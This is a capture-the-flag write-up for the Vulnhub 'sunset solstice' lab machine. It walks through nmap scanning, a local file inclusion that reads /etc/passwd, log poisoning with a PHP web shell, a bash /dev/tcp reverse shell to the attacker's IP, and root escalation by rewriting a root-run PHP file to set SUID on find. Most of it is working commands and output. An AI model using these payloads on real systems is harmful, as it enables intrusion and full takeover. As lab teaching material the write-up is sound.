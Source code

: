 ```yaml
---
title: Vulnhub - sunset solstice
description: My writeup on sunset solstice box.
categories:
 - vulnhub
tags: vulnhub lfi php suid find logpoisoning
---
```


![](https://i.pinimg.com/originals/54/1d/f7/541df746fb87996ad2ab1dfbea249cea.png)

Hi all, let's pwn this!

You can find the machine there > [sunset solstice](https://www.vulnhub.com/entry/sunset-solstice,499/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.9
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-01 14:09 EEST
Nmap scan report for solstice.zte.com.cn (192.168.1.9)
Host is up (0.00038s latency).
Not shown: 65524 closed ports
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.1.9:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
|_  256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
25/tcp    open  smtp        Exim smtpd 4.92
| smtp-commands: solstice.zte.com.cn Hello 0xatom.zte.com.cn [192.168.1.16], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP, 
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18 02:39 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.1.9:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
3128/tcp  open  http-proxy  Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
8593/tcp  open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
54787/tcp open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
62524/tcp open  ftp         FreeFloat ftpd 1.00
MAC Address: 08:00:27:86:82:E4 (Oracle VirtualBox virtual NIC)
Service Info: Host: SOLSTICE; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

After lot of enumeration, i found an entry point on port `8593` there we can see this page : 

![](https://i.imgur.com/8mkXJqb.png)

If we click on `Book List` button we can see this on URL : `/index.php?book=list`, i tried for LFI and bingo got it! 

```
$ curl http://$ip:8593/index.php\?book\=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
avahi:x:106:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:107:118::/var/lib/saned:/usr/sbin/nologin
colord:x:108:119:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:109:7:HPLIP system user,,,:/var/run/hplip:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:120:MySQL Server,,,:/nonexistent:/bin/false
miguel:x:1000:1000:,,,:/home/miguel:/bin/bash
uuidd:x:112:121::/run/uuidd:/usr/sbin/nologin
smmta:x:113:122:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:114:123:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
Debian-exim:x:115:124::/var/spool/exim4:/usr/sbin/nologin
```

## Log poisoning - shell as www-data

Now i tried to read log files, and bingo we can read `/var/log/apache2/access.log` so now we can take a reverse shell! :D

Port `8593` runs on `PHP cli server`, so we cant send our payload on port `8593`. We will send it to port `80` because `/var/log/apache2/access.log` is apache log file.

```
$ nc $ip 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
HTTP/1.1 400 Bad Request
Date: Wed, 01 Jul 2020 11:32:45 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>
```

Let's test it now.

`http://$ip:8593/index.php?book=../../../../var/log/apache2/access.log&cmd=whoami`

In the end of the output we can see this : `www-data` , perfect now let's take a reverse shell i'll use this :

`bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1'` 

But first we have to URL encoded it & then send it.

```
$ curl "http://$ip:8593/index.php?book=../../../../var/log/apache2/access.log&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.16%2F5555%200%3E%261%27"
```

We have shell!

```
$ nc -lvp 5555
listening on [any] 5555 ...
www-data@solstice:/var/tmp/webserver$ ^Z #ctrl + z
[1]+  Stopped                 nc -lvp 5555
$ stty -raw echo
$ fg
www-data@solstice:/var/tmp/webserver$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@solstice:/var/tmp/webserver$
```

## www-data -> root

After lot of enumeration, i noticed only 1 thing if you run `ps aux | grep root` you can see this : 

`root       423  0.0  2.0 196744 21056 ?        S    07:45   0:00 /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/`

It's a php local server, `-t` specify the document for the built-in web server so if we go there we can see that we can edit the file.

```
www-data@solstice:/var/tmp/sv$ ls -la
ls -la
total 12
drwsrwxrwx 2 root root 4096 Jun 26 15:36 .
drwxrwxrwt 9 root root 4096 Jul  1 07:45 ..
-rwxrwxrwx 1 root root   36 Jun 19 00:01 index.php
```

Server is running as root, so we can edit the file and add our payload in, we can do a trick and make the `find` binary SUID! ;-)

```
www-data@solstice:/var/tmp/sv$ > index.php
www-data@solstice:/var/tmp/sv$ printf "<?php\nsystem('chmod o+x /usr/bin/find; chmod +s /usr/bin/find');\n?>" > index.php
www-data@solstice:/var/tmp/sv$ cat index.php
<?php
system('chmod o+x /usr/bin/find; chmod +s /usr/bin/find');
?>
www-data@solstice:/var/tmp/sv$ curl http://127.0.0.1:57/index.php
www-data@solstice:/var/tmp/sv$ find . -exec /bin/sh -p \; -quit
find . -exec /bin/sh -p \; -quit
whoami;id
root
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

Let's read the flag.

```
# cat /root/root.txt

No ascii art for you >:(

Thanks for playing! - Felipe Winsnes (@whitecr0wz)

f950998f0d484a2ef1ea83ed4f42bbca
```

Interesting privesc! :)
